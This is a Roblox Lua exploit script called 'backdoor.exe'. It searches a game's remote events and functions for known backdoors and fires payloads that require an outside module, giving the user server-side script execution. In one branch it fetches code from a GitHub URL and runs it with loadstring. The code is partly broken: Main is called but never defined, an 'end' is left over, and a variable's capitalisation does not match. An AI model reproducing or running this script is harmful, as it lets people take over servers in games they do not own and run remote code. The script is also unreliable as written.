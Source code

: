 local LocalPlayer = game:GetService("Players").LocalPlayer
local requireScript = ("require(7924358164):k4scripts('%s')"):format(LocalPlayer.Name)
local invCode = "6HndYgC"
 
local alternativeSS = {
    run = { [1] = "5#lGIERKWEF" },
    emma = { [1] = "pwojr8hoc0-gr0yxohlgp-0feb7ncxed", [2] = ",,,,,,,,,,,,,,," },
    helpme = { [1] = "helpme" },
    pickett = { [1] = "cGlja2V0dA==" },
    harked = "https://raw.githubusercontent.com/iK4oS/backdoor.exe/indev/harkedSS.lua"
}
 
local function notify(text)
    game:GetService("StarterGui"):SetCore(
    "SendNotification",
        {
            Title = "backdoor.exe",
            Duration = 3,
            Text = text
        }
    )
end
 
local function attached(possibleWait)
    if possibleWait then wait(possibleWait) end
    return LocalPlayer.PlayerGui:FindFirstChild("backdoor.exe")
end
 
local function validRemote(rm, _className)
    local fullName =  rm:GetFullName()
    
  if string.find(fullName, "DefaultChat") then return false end
    if string.find(fullName, LocalPlayer.Name) then return false end
    if rm:FindFirstChild("__FUNCTION") then return false end
    if rm.Parent == game:GetService("JointsService") then return false end
    
   if rm.ClassName ~= _className then return false end
 
   if getgenv().blacklisted then
        if table.find(getgenv().blacklisted, fullName) then return false end
    end
 
   return true
end
 
local function harked()
    local backpack = LocalPlayer.Backpack 
    return backpack:FindFirstChild("HandlessSegway") and
        Backpack.HandlessSegway:FindFirstChild("RemoteEvents") and
        Backpack.HandlessSegway.RemoteEvents:FindFirstChild("DestroySegway")
end
local function emmaBackdoor(rm)
    return rm.Name == "emma" and rm.Parent.Name == "mynameemma"
end
local function runBackdoor(rm)
    return rm.Name == "Run" and
    rm.Parent:FindFirstChild("Pages") and rm.Parent:FindFirstChild("R6") and
    rm.Parent:FindFirstChild("Version") and rm.Parent:FindFirstChild("Title")
end
 
local function scanGame()
    notify("Scanning for a backdoor.")
    if harked() then
        loadstring(game:HttpGetAsync(alternativeSS.harked))()
        return
    end
 
   for _, remote in pairs(game:GetDescendants()) do
        if validRemote(remote, "RemoteEvent") and not attached() then
            if emmaBackdoor(remote) then
                remote:FireServer(unpack(alternativeSS.emma), requireScript)
            end
            if runBackdoor(remote) then
                remote:FireServer(unpack(alternativeSS.run), requireScript)
            end
 
   remote:FireServer(unpack(alternativeSS.helpme), requireScript)
      remote:FireServer(unpack(alternativeSS.pickett), requireScript)
         remote:FireServer(requireScript)
 
   end
  end
 
  for _, remote in pairs(game:GetDescendants()) do
      if validRemote(remote, "RemoteFunction") and not attached() then
         remote:InvokeServer(requireScript)
      end
   end
 
end
    scanGame()
    
 if not attached(2) then
        notify("Unable to find backdoor.\nGame not backdoored?")
    end
end
 
if game:IsLoaded() then
    pcall(Main)
end
